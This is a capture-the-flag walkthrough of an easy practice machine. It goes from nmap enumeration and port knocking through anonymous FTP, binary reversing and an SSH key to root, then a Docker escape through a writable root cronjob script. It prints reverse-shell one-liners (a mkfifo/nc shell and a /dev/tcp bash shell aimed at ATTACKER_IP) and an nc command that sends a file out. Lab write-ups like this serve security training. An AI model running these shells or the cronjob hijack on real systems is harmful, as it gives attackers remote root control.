| Difficulty |
| ---------- |
|    Easy    |

---

### [ Flag 1 ]

As usual, let's run an `nmap` scan on the target to enumerate the services that it's running.

```
sudo nmap -sC -sV -vv -T4 10.10.21.0
```

From the results, we find out that there are 3 open ports. There are also 2 ports which seem to be hidden behind a firewall.

```
21/tcp   filtered ftp
22/tcp   open     ssh
2375/tcp filtered docker
4420/tcp open     nvm-express?
8080/tcp open http-proxy
```

Looks like we have access to a SSH server, a HTTP Web server and an unknown service running on port 4420. The FTP server is currently inaccessible by us. There is also a docker service running on port 2375.

Let's take a look at the HTTP Web server:



We have a forum page that is built on **phpBB**. Before we do our happy-path enumeration, let's run a `gobuster` directory scan to see if we can find any hidden directories:

```
gobuster dir -u http://10.10.21.0:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

I let the scan run for awhile, and it did find many different directories and files, but they were all ultimately of no use to us. 

Let's now check out the post on the webpage:



We have a post titled 'Post cat pictures here!'. We also have an interesting message: 

`Knock knock! Magic numbers: 1111, 2222, 3333, 4444`

Hmmmm.... '**Knock knock**' and numbers that look like port numbers.... Could this be a **port knocking** sequence?

---

*Port Knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port(s).*

---

Perhaps if we were to visit these ports in sequence, we will be able to access the two services that are currently hidden behind the firewall! Let's try it out by visiting these ports in order:

```
telnet 10.10.21.0 1111
telnet 10.10.21.0 2222
telnet 10.10.21.0 3333
telnet 10.10.21.0 4444
```

Once we are done, we can run an nmap scan on the target again:



Nice! Access to the **FTP** server has been unlocked. 

From the nmap scan, we also know that the FTP server has **anonymous login** enabled. This means that we can log into it without supplying a password. Let's login and grab the '**note.txt**' file inside:



**Contents of note.txt:**



Nice, we now have a password - **sardinethecat**

The unknown service running on port **4420** turned out to be an internal shell service. Let's log into it with our newfound password:

```
nc 10.10.21.0 4420
```



And we're in! 

The first thing that I noticed was that the machine was very limited in terms of the commands that it could run. It couldn't run basic commands like `cd`, `whoami` and many others.  In fact, if we look at the **/bin** directory, we can see that there are only a handful of programs that are installed.



With that in mind, let's take a look around.



I found a binary called **runme** in the home directory of the **catlover** user. Let's try to run it.



Welp, looks like we need to find a way to upgrade our shell. Let's try opening a reverse shell back into our machine.

I tried a few reverse shell payloads from **PayloadsAllTheThings** (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), before finding one that worked:

``` 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f
```



And we're in yet again! Now we can run the `runme` binary:



We need another password. Unfortunately, '**sardinethecat**' did not work.

My next thought was to download the binary onto my local machine so that I could analyze it. We can use `nc` (as it is installed on the target machine) and some basic piping to do so:

```
// on local machine
nc -lvnp 5555 > runme

// on target machine
nc ATTACKER_IP PORT < /home/catlover/runme
```

With the binary now on my local machine, I passed it to [Binary Ninja](https://cloud.binary.ninja/) to reverse engineer the code.



Once the reverse engineering is complete, I looked at the `main()` function. As we can see, the password is actually exposed in the code - **rebecca**

Let's go back into the target machine and run `runme` again:



We now have a **private ssh key** in catlover's home directory:



We can simply cat out the contents of the key, copy it over to a file on our local machine, and use it to log into SSH! *(make sure permissions of the key is either 400 or 600)*



Great, we are now logged in as the **root** user!



We can grab the first flag in the **/root** directory.

---

### [ Flag 2 ]

It seem like the flag that we found is not actually the final root flag. I tried using the `find` command to search for the other flag:

```
find / -iname '*flag*' 2>/dev/null
```

However, I was unable to find flag 2.

Remember that `docker` is running on port 2375? Perhaps we are currently in a docker container? We can verify this by looking for a **.dockerenv** file in the root ('/') directory.



The file is indeed present, which confirms that we are in a docker container! Now we need to find a way to break out of the container. From past experiences, this is normally done through a script that is run as a **cronjob** by the root user outside of the container. Let's look around the machine to see if we can find such a script.

One place I looked was the **.bash_history** file:



There's an interesting script called **clean.sh** located in **/opt/clean**. Let's check it out.



Seems like the script is a cleaner script that removes all files in the **/tmp** directory. It would make sense for such a script to be run as a cronjob, so perhaps this is our ticket out of the docker container.

We also have write permissions to the script, so let's try to replace it with a reverse shell script:

```
echo '/bin/bash -l > /dev/tcp/ATTACKER_IP/PORT 0<&1 2>&1' > clean.sh
```



After a few minutes, the reverse shell was opened and I was logged into the actual target machine as the root user.



The final flag can be found in the **/root** directory.
